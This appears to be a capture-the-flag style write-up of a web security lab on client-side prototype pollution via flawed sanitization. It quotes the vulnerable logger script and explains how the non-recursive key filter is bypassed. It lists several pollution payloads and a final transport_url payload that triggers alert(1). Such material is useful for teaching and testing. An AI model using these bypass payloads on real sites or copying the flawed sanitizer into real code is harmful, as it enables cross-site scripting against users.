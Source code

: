 # Client-side prototype pollution via flawed sanitization
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:
1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call `alert()`.


# Solution
## Analysis
The website logs parameters send in search request.

|![](Images/image-27.png)|
|:--:| 
| *Logger request with JSON data* |
|![](Images/image-28.png)|
| *Used scripts - Logger script* |

Source code of `searchLoggerConfigurable.js`:
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}

window.addEventListener("load", searchLogger);
```


## Exploitation
Sanitization function does not sanitize input recursively, therefore attacker can bypass it using for example: `__pro__proto__to__`.
```js
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Alternative payloads possibilities:
```
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?constconstructorructor[protoprototypetype][foo]=bar
/?constconstructorructor.protoprototypetype.foo=bar
```

Attacker can deliver exploit by specifying `transport_url` property of `config` - `transport_url` can be used as gadget.

|![](Images/image-30.png)|
|:--:| 
| *Test for prototype pollution* |
|![](Images/image-29.png)|
| *Rendered script on page with test payload* |
|![](Images/image-31.png)|
| *Rendered script on page with final payload* |

Final payload:
```
?__pro__proto__to__[transport_url]=data:,alert(1);
```

This vulnerability can be exploited using DOM Invader.

